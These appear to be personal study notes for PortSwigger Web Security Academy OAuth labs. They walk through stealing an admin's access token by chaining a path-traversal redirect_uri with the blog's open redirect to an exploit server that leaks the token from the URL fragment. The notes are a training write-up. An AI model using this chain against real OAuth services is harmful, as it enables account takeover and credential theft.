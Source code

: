 
https://YOUR-LAB-ID.web-security-academy.net/oauth-callback?code=STOLEN-CODE






# 4. Lab: Stealing OAuth access tokens via an open redirect
https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-an-open-redirect

To solve the lab, identify an open redirect on the blog website and use this to steal an access token for the admin user's account. Use the access token to obtain the admin's API key and submit the solution using the button provided in the lab banner. 

study site. observe open redirect on blog pages "next page" links:
GET /post/next?path=/post?postId=9 HTTP/1.1

part 1 - extracton method 

find:
travesal location
API location
steal token via accesss log (with script to make it visible)

* three links in the script are:
1st
authentication initialization while assigning the address for the response:
https://oauth-ac091f821fd0471ac088e8a2022f0013.web-security-academy.net/auth?client_id=a388sx5v6gxa1pdywvj38&redirect_uri=

2nd
redirecting from whitelisted domain to attacker controlled URL using blog's next path feature + path traversl method:
https://acdd1f361f3c4746c0d4e8ba002d00b2.web-security-academy.net/oauth-callback/../post/next?path=

3rd
link to the exploit location:
https://exploit-ac991fef1f8f4782c0c3e884011800de.web-security-academy.net/exploit
dna the rest of the 1st adress:
&response_type=token&nonce=373179658&scope=openid%20profile%20email

format:
{1st link.. redirect uri={2n link?path={2rd link}} 1st link ending}

this leaks the token via fragment in the URI
when victims returns back to the malicious link (window.location.hash = True)
the script extracts the hash from the URI and sends it as a GET parameter to finalize the leak


1.
https://oauth-0adb00460487a6c3c0392e5f02110022.web-security-academy.net/auth?client_id=do56u1zrsd8zhv08oimzq&redirect_uri=https://0a1a000f047ca6e6c0762eaf00c6002e.web-security-academy.net/oauth-callback&response_type=token&nonce=884658517&scope=openid%20profile%20email

2.
whitelisted url + 
https://0a1a000f047ca6e6c0762eaf00c6002e.web-security-academy.net/oauth-callback
travesal to open redirect
/../post/next?path=

